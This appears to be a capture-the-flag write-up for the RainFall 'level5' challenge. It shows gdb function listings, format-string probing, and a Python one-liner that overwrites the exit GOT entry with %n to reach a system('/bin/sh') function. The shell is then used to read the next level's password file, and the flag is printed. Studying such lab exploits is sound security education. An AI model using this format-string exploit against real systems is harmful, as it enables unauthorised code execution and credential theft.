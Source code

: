we can see that we have a function o() that execute
```  system("/bin/sh"); ```

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048334  _init
0x08048380  printf
0x08048380  printf@plt
0x08048390  _exit
0x08048390  _exit@plt
0x080483a0  fgets
0x080483a0  fgets@plt
0x080483b0  system
0x080483b0  system@plt
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x080483d0  exit
0x080483d0  exit@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  _start
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  o -> addresse of o in decimal 134513824 
0x080484c2  n
0x08048504  main```


```
level5@RainFall:~$ ./level5 
AAAAAA %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x 
AAAAAA 200 b7fd1ac0 b7ff37d0 41414141 25204141 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 
```
A is in 4th argument

```
*------------------
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
   ```

python -c 'print "\x08\x04\x98\x38"[::-1] + "%134513824c" + "%4$n"' > input.txt
cat input.txt - | ./level5 
                                                                          
  whoami
level6
pwd
/home/user/level5
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31